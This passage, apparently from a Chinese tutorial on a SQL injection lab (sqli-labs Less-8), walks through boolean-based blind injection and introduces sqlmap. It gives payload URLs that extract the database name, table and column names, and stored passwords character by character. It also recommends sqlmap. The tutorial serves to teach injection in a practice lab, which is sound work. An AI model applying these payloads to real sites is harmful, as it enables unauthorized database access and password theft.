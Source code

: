 对照我们上面的ascll表，可以得出一个字母是s

![](img/2.7/13.png)

然后，我们改变substr的第二个参数，继续判断，链接如下

http://39.98.88.18:8080/sql/Less-8/index.php?id=1%27%20and%20(ascii(substr(database(),2,1)))=115--+

继续采用二分法依次判断。再次不在过多叙述。

最终得出当前数据库的库名为security.


4.猜测表命

猜测表明的链接如下：

>http://39.98.88.18:8080/sql/Less-8/index.php?id=1%27%20and(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))<116--+

具体方法同上，仍然是使用二分法在此不过多叙述。


5.猜测列名

>http://39.98.88.18:8080/sql/Less-8/index.php?id=1%27%20and (ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)))>100 --+

６.猜测数据

>http://39.98.88.18:8080/sql/Less-8/index.php?id=1%27%20and  (ascii(substr(( select password from users limit 0,1),1,1)))=68--+

## 七、sqlmap简单使用

盲注测试繁琐又复杂。。首先建议大家手工尝试一下，理解其注入的原理。然后给大家推荐一下sqlmap的使用，毕竟使用sqlmap进行盲注会简单的多。

关于sqlmap的安装在此不在叙述，在稍后的课程中会详细讲明。在下面推荐安装链接
。

>https://blog.csdn.net/baigoocn/article/details/51456721

本人是在kali上使用的sqlmap。某些版本的sqlmap在使用是需要在前面加python.
